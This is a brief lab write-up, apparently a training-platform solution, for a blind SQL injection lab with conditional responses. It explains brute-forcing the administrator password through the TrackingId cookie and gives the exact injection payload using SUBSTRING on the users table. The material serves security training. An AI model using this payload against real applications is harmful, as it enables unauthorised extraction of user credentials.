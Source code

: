 # Lab 11: Blind SQL Injection with Conditional Responses

* **Solution**: Inject a conditional query into the TrackingId cookie to check if “Welcome back” appears, then brute-force the admin password character-by-character.
* **Final Payloads**:
  * TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a (repeat for each position, a-z, 0-9)